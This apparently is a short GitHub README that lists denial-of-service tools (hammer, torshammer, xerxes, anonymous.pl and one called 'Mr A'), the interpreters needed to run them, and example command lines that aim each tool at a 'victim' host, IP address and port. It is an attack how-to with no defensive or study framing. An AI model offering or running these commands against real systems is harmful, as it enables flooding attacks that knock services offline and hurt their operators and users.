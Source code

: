 #simple step DDos Building By Me
#copyright By ~mr a~

1 tool ddos hammer

2 tool ddos torshammer

3 tool ddos xerxes

5 tool ddos anonymous.pl

6 tool ddos Mr A

#script install to running ddos

1 python

2 python2 

3 perl

4 clang

#example run

python hammer.py -s ip -r packet -p port

python torshammer.py -t ip -p port -r threads

python2 ddos.py hostname victim

python2 ddos2.py hostname victim

./xerxes hostname victim

perl Anonymous.pl
